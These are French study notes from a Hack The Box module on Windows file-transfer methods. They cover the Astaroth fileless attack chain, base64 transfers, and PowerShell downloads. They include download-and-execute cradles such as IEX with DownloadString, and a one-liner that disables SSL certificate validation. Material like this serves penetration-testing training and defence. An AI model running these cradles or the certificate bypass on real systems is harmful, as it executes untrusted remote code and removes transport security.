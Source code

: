 ```yaml
---
title: File Transfers
description: 
published: true
date: 2025-03-22T14:31:11.635Z
tags: notes, htb, module
editor: markdown
dateCreated: 2025-03-16T15:21:30.098Z
---
```


# File Transfers

Date de complétion: XX/XX/XX

# Notes

## Windows File Transfer Methods

### Introduction

Les nouvelles versions de Windows comportent de nombreux outils pour le transfert de fichiers.
Les attaquants utilisent le transfert de fichier pour opérer et éviter de se faire détecter.
Les défenseurs doivent connaitre ces méthodes et leur fonctionnement pour surveiller et créer les politiques correspondantes.

Le post [Microsoft Astaroth Attack](https://www.microsoft.com/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/) donne un exemple d'APT et des [menaces sans fichier](https://learn.microsoft.com/fr-fr/defender-endpoint/malware/fileless-threats).

Les menaces fileless, n'existent pas sous forme de fichiers mais exploitent des outils légitimes du système pour exécuter des attaques.

L'attaque Astaroth commence par un lien malveillant dans un e-mail de phishing, menant à un fichier LNK.
Celui-ci déclenche l'exécution de [WMIC](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic) avec l'option "/Format" pour télécharger du code JavaScript malveillant.
Ce dernier utilise [Bitsadmin](https://learn.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool) pour récupérer des charges utiles encodées en base64, qui sont ensuite décodées avec Certutil.
Enfin, [Regsvr32](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32) charge un DLL permettant d'injecter le malware Astaroth dans le processus Userinit.

Voici les étapes de l'attaque Astaroth:
![fig1a-astaroth-attack-chain.png](/images/fig1a-astaroth-attack-chain.png){.align-center}

Pour plus d'informations sur les fileless threats:
[now-you-see-me-exposing-fileless-malware](https://www.microsoft.com/en-us/security/blog/2018/01/24/now-you-see-me-exposing-fileless-malware/)

### PowerShell Base64 Encode & Decode

Selon la taille du fichier à transférer, différentes méthodes sans communication réseau peuvent être utilisées.

Avec un terminal, on peut encoder un fichier en base64, copier son contenu, puis le décoder pour retrouver le fichier d'origine.

Il est essentiel de vérifier l'intégrité du fichier avant et après le transfert. Pour cela, on peut utiliser md5sum, qui génère et vérifie des sommes de contrôle MD5 de 128 bits.

Récupérer le hash du fichier
```
md5sum myfile
```

Encoder le fichier en base64
```
cat myfile | base64 -w 0; echo
```

Une fois sur la cible, il est possible d'écrire le contenu décodé dans un fichier
```
[IO.File]::WriteAllBytes("C:\temp\fichier", [Convert]::FromBase64String("<contenu>"))
```

Il est maintenant possible de vérifier que le hash MD5 correspond bien à l'original avec [Get-FileHash](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-7.2).

```
Get-FileHash C:\temp\fichier -Algorithm md5
```

Cependant un webshell ou l'utilitaire de ligne de commande Windows (cmd.exe) ont des limites en terme de taille de chaîne de caractères.

### PowerShell Web Downloads

Il est possible d'utiliser la classe PowerShell [system.net.webclient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient) pour télécharger des fichiers avec HTTP/S ou encore FTP.

### File Download

Télécharger un fichier avec les méthodes DownloadFile et DownloadFileAsync:
```
(New-Object Net.WebClient).DownloadFile('<URL>','<fichier de sortie>')
```
```
(New-Object Net.WebClient).DownloadFileAsync('<URL>','<fichier de sortie>')
```

### PowerShell DownloadString - Fileless Method

Au lieu de télécharger un script PowerShell sur le disque, on peut l'exécuter directement en mémoire en utilisant la commande Invoke-Expression.
Éxécuter un fichier (mode fileless) avec [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) et la méthode DownloadString:
```
IEX (New-Object Net.WebClient).DownloadString('<URL>')
```
```
(New-Object Net.WebClient).DownloadString('<URL>') | IEX
```

### PowerShell Invoke-WebRequest

À partir de PowerShell 3.0, la commande Invoke-WebRequest (alias de curl,iwr,wget) permet de télécharger des fichiers, mais elle est relativement lente.
```
Invoke-WebRequest <URL> -OutFile <fichier>
```

Une petite liste de "cradles" (technique utilisée pour télécharger et exécuter du code malveillant directement en mémoire) est disponible [ici](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

### Common Errors with PowerShell

Parfois Internet Explorer doit être lancé au moins une première fois avant d'exécuter Invoke-WebRequest.
Pour résoudre ce problème il est possible d'utiliser l'option "-UseBasicParsing"

Avec Net.WebClient, pour ne pas vérifier le certificat SSL: 
```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

